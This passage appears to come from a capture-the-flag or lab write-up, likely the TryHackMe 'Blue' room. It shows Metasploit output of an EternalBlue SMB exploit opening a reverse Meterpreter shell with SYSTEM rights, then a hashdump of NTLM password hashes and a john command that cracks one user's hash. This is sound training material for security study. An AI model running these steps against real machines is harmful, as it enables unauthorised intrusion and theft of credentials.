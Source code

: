 ```
[*] 10.10.62.28:445 - Sending all but last fragment of exploit packet
[*] 10.10.62.28:445 - Starting non-paged pool grooming
[+] 10.10.62.28:445 - Sending SMBv2 buffers
[+] 10.10.62.28:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.62.28:445 - Sending final SMBv2 buffers.
[*] 10.10.62.28:445 - Sending last fragment of exploit packet!
[*] 10.10.62.28:445 - Receiving response from exploit packet
[+] 10.10.62.28:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.62.28:445 - Sending egg to corrupted connection.
[*] 10.10.62.28:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.62.28
[*] Meterpreter session 1 opened (10.11.19.53:1337 -> 10.10.62.28:49170) at 2020-10-08 10:25:32 -0400
[+] 10.10.62.28:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.62.28:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.62.28:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > sysinfo
Computer        : JON-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
```
A process of migrating the shell is well described in the official material, but I didn't had any issue with the shell as it is.

---

## Post Exploitation
As the shell is already running as `NT AUTHORITY\SYSTEM` we don't need to do a PrivEsc.
However, you might collect some useful data from compromised machine.
Most of OSCP lab machines have something juicy to find if you become a root. Don't skip the enumeration!
To grab users hashes we can use `hashdump` command:
```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
We have a hash now! Let's crack it.
Save the hash into the file (jon.hash in my case) and crack it with `john`:
```
/usr/sbin/john -w=/usr/share/wordlists/rockyou.txt --format=NT ./jon.hash
```
Yay! We have Jon's password now.
